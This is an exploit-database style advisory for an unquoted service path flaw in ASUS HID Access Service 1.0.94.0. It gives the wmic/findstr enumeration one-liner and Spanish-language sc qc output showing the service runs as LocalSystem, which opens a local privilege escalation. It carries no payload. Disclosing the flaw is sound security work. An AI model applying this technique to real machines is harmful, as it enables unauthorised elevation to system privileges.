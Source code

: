 EXP
---

    # Exploit Title: ASUS HID Access Service 1.0.94.0 - 'AsHidSrv.exe' Unquoted Service Path
    # Date: 2020-05-19
    # Exploit Author: Alejandra Sánchez
    # Vendor Homepage: www.asus.com
    # Version: 1.0.94.0
    # Tested on: Windows 10 Pro x64 es

    # Description:
    ATK Hotkey 1.0.94.0 suffers from an unquoted search path issue impacting the service 'AsHidService'. This could potentially allow an
    authorized but non-privileged local user to execute arbitrary code with elevated privileges on the system. A successful attempt would require
    the local user to be able to insert their code in the system root path undetected by the OS or other security applications where it could
    potentially be executed during application startup or reboot. If successful, the local user’s code would execute with the elevated privileges
    of the application.

    # Prerequisites
    Local, Non-privileged Local User with restart capabilities

    # Details

    C:\>wmic service get name, pathname, displayname, startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
    ASUS HID Access Service               AsHidService               C:\Program Files (x86)\ASUS\ATK Package\ATK Hotkey\AsHidSrv.exe               Auto

    C:\>sc qc "AsHidService"
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: AsHidService
            TIPO               : 10  WIN32_OWN_PROCESS
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files (x86)\ASUS\ATK Package\ATK Hotkey\AsHidSrv.exe
            GRUPO_ORDEN_CARGA  :
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : ASUS HID Access Service
            DEPENDENCIAS       :
            NOMBRE_INICIO_SERVICIO: LocalSystem